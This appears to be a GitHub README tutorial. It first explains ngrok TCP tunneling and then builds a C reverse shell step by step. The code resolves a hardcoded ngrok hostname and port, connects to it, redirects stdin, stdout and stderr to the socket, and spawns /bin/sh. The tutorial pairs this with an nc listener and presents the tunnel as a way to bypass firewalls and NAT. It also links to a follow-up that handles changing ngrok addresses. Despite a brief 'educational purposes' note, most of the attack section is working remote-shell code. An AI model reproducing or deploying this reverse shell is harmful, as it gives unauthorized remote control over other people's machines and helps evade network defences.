



# Tunneling with ngrok


**ngrok** is a tunneling service that allows you to expose a local service (running on your computer) to the internet through a temporary public address.

Instead of opening firewall ports or configuring routers, ngrok creates a **secure tunnel** from your local machine → to ngrok’s servers → to the outside world.

---

## ⚙️ How It Works

1. **Local Service:** You have a program running locally (e.g., a server listening on port `4444`).
2. **ngrok Agent:** You run `ngrok` on your machine, telling it which local port to expose.
3. **Tunnel Establishment:** ngrok opens an outbound connection to its cloud servers.
4. **Public Address:** ngrok gives you a temporary public hostname and port (like `0.tcp.ap.ngrok.io:12163`).
5. **Remote Access:** Anyone connecting to that hostname\:port is automatically forwarded into your local service.

---

## Why Use ngrok?

* **Bypasses NAT and Firewalls:** Since it uses outbound connections, it works even behind strict routers.
* **No Router Access Needed:** You don’t need to configure port forwarding.
* **Quick Setup:** Works within minutes.
* **Cross-Platform:** Runs on Linux, macOS, and Windows.

---

## ⚠️ Limitations of Free Plan

* **Ephemeral Addresses:** The public address (hostname\:port) changes every time you restart ngrok.
* **Session Timeout:** Free sessions may disconnect after some time.
* **Rate Limits:** Limited number of connections per minute/hour.
* **Third-Party Dependency:** All traffic passes through ngrok servers.

---

## 🔐 Security Considerations

* Exposing local services to the internet can be risky.
* Anyone with the public ngrok address can reach your service.
* Best used for testing, development, or controlled environments.
* Not recommended for permanent or sensitive services without authentication.

---


# Setting up ngrok 

## 1. Install ngrok

* Go to [ngrok.com](https://ngrok.com/) and sign up for a free account.
* Download the ngrok binary for your operating system (Linux, macOS, or Windows).
* Place it somewhere in your `PATH` (e.g., `/usr/local/bin` on Linux or just run it from Downloads on Windows).

---

## 2. Authenticate ngrok

* After signing up, ngrok gives you an **authtoken**.
* Run the following command to save it locally:

```bash
ngrok config add-authtoken <YOUR_TOKEN>
```

This links your ngrok client to your account.

---

## 3. Start a Tunnel

If you want to expose a local port (e.g., port `4444`):

```bash
ngrok tcp 4444
```

* ngrok will print a public forwarding address like:

  ```
  tcp://0.tcp.ap.ngrok.io:12163 -> localhost:4444
  ```
* This means anyone who connects to `0.tcp.ap.ngrok.io:12163` will reach your local service on `localhost:4444`.

---

## 4. Connect from Remote

* Share the `hostname:port` with the other machine.
* They can connect using any TCP client (like `nc` or their own program).

---

## 5. Keep in Mind

* Every restart = new address (unless you pay for static domains).
* If the tunnel stops, connections will break.
* You can monitor connections at [http://127.0.0.1:4040](http://127.0.0.1:4040).




---


now if you have the set up running let start coding 

---

# 🖥️ Reverse Shell over ngrok (C Implementation)

This program demonstrates how to connect a Linux machine’s shell to a remote listener using **ngrok** as a tunneling service.

Instead of directly connecting to an IP address, the program uses **`getaddrinfo()`** to resolve ngrok’s hostname (`0.tcp.ap.ngrok.io`) and port.

---

## 📌 Step-by-Step Breakdown

### 1. Headers

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
```

These libraries provide:

* Socket programming (`socket`, `connect`, `dup2`)
* Hostname resolution (`getaddrinfo`)
* Basic I/O and memory functions.

---

### 2. Target Host and Port

```c
const char *hostname = "0.tcp.ap.ngrok.io";
const char *port = "12163";
```

* ngrok gives a **public hostname** and port after you run `ngrok tcp 4444`.
* These values replace the attacker’s IP/port in a traditional reverse shell.


---

### 3. Address Resolution

```c
struct addrinfo hints, *res;
memset(&hints, 0, sizeof(hints));
hints.ai_family = AF_INET;       // IPv4
hints.ai_socktype = SOCK_STREAM; // TCP

int status = getaddrinfo(hostname, port, &hints, &res);
```

* `getaddrinfo()` converts the hostname and port into a usable socket address structure.
* This allows connecting to **hostnames** (like ngrok URLs), not just raw IPs.

---

### 4. Creating the Socket

```c
sockfd = socket(res->ai_family, res->ai_socktype, res->ai_protocol);
```

* Opens a TCP socket.
* Returns a file descriptor representing the connection endpoint.

---

### 5. Connecting to Remote Host

```c
connect(sockfd, res->ai_addr, res->ai_addrlen);
```

* Establishes a TCP connection to ngrok’s server.
* If successful, any data sent to ngrok is forwarded to your local listener (e.g., `nc -lvnp 4444`).

---

### 6. Redirecting I/O

```c
for (int i = 0; i < 3; i++) {
    dup2(sockfd, i);
}
```

* `dup2()` replaces **stdin (0), stdout (1), stderr (2)** with the socket.
* This means anything typed by the remote listener becomes input to the shell, and all shell output/errors go back over the socket.

---

### 7. Spawning the Shell

```c
execve("/bin/sh", NULL, NULL);
```

* Replaces the current process with `/bin/sh`.
* Since stdin/stdout/stderr are bound to the socket, the shell is now **remote-controlled**.

---

## 🔄 Flow of Execution

1. Local service (e.g., `nc -lvnp 4444`) runs on your machine.
2. You expose it with ngrok:

   ```bash
   ngrok tcp 4444
   ```

   → ngrok gives you `0.tcp.ap.ngrok.io:12163`.
3. The C program connects to this hostname/port.
4. The shell gets bound to the TCP socket.
5. You now have interactive shell access remotely.

---

## ⚠️ Notes

* `getaddrinfo()` makes this program portable with **hostnames** (not just raw IPs).
* On failure, `perror()` helps debug socket creation or connection issues.
* This program is for **educational purposes** (understanding sockets and tunneling).
* Exposing shells over the internet is **dangerous** if not secured.

---






boom now we donot have to wory about firewalls & NAT 


A common issue with the free version of ngrok: the public hostname and port change every time you restart the tunnel. So your reverse shell code will break if it relies on a hardcoded hostname or port.

click [here](./dynamic_domain_port/) to fix this problem
